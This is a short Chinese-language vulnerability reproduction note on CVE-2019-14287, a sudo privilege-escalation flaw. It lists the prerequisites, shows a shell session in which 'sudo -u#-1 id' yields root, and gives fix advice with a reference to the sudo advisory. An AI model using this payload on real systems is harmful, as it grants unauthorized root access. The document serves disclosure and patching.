 # [漏洞复现]CVE-2019-14287 sudo提权漏洞
### 漏洞描述
2019年10月14日，CVE官方发布了CVE-2019-14287的漏洞预警。通过特定payload，用户可提升至root权限。
**利用前提**
1. sudo -v < 1.8.28
2. 知道当前用户的密码
3. 当前用户存在于sudo权限列表
### 漏洞复现

```shell
mark@mark-Pc:~$ id
uid=1000(mark) gid=1000(mark) 组=1000(mark),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
mark@mark-Pc:~$ sudo -u#-1 id
[sudo] mark 的密码： 
uid=0(root) gid=1000(mark) 组=1000(mark)
```
### 修复建议
1. 升级sudo到1.8.28版本
2. 做好sudo用户列表管理

参考：
https://www.sudo.ws/alerts/minus_1_uid.html
